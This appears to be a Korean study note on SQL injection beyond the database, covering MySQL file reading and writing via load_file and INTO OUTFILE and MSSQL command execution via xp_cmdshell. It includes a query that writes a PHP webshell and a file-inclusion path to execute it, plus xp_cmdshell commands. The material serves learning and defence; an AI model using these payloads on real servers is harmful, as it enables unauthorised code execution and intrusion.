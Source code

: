 	mysql> select @@secure_file_priv;
	+-----------------------+
	| @@secure_file_priv    |
	+-----------------------+
	| /var/lib/mysql-files/ |
	+-----------------------+

load_file 함수는 인자로 전달된 파일을 읽고, 출력함
이때, 전달되는 파일은 전체 경로를 입력해야 하며 해당 파일에 접근 권한이 있어야 함

	# echo test1234 > /var/lib/mysql-files/test
	mysql> select load_file('/var/lib/mysql-files/test');
	+----------------------------------------+
	| load_file('/var/lib/mysql-files/test') |
	+----------------------------------------+
	| test1234                               |
	+----------------------------------------+

SELECT ... INTO 형식의 쿼리는 쿼리 결과를 변수나 파일에 쓸 수 있음

	SELECT ... INTO var_list             # column 값을 변수에 저장
	SELECT ... INTO OUTFILE  'filename'  # 쿼리 결과의 rows 값을 파일에 저장
	SELECT ... INTO DUMPFILE 'filename'  # 쿼리 결과(single row)를 파일에 저장

만약 secure_file_priv의 값이 올바르지 않아 임의 경로에서 파일 작업을 수행할 수 있다면
이를 통해 웹셸을 업로드하는 등의 공격이 가능

	mysql> select '<?=`ls`?>' into outfile '/tmp/a.php';
	/* <?php include $_GET['page'].'.php'; // "?page=../../../tmp/a" */
	/*<?php include $_GET['page'].'.php  이 부분이 이미 웹서버에 있다고 가정할때, 
	mysql outfile 이용해서 악성 php 코드를 웹서버가 실행할 수 있는 곳에 저장해두고 나서  
	page매개변수로 ../../../tmp/a 이 값을 넣어주면 악성코드를 실행할 수 있음*/


### Out of DBMS: MSSQL
MSSQL에서는 xp_cmdshell 기능을 이용해 OS 명령어를 실행할 수 있음
해당 기능의 활성화 여부를 판단하는 쿼리는 다음과 같음
해당 쿼리의 실행 결과에서 1이 반환되면 활성화, 0이라면 비활성화 상태를 의미

	SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell'

만약 xp_cmdshell 기능이 활성화되어 있는 경우,
아래와 같은 방식으로 OS 명령어를 실행할 수 있음

	EXEC xp_cmdshell "net user";
	EXEC master.dbo.xp_cmdshell 'ping 127.0.0.1';


DBMS 문자열 비교 주의 사항
각각의 DBMS는 문자열을 비교하는 방법이 서로 다름
같은 이유로 웹 애플리케이션과 DBMS에서 문자열을 비교하는 방식이 다를 수 있음
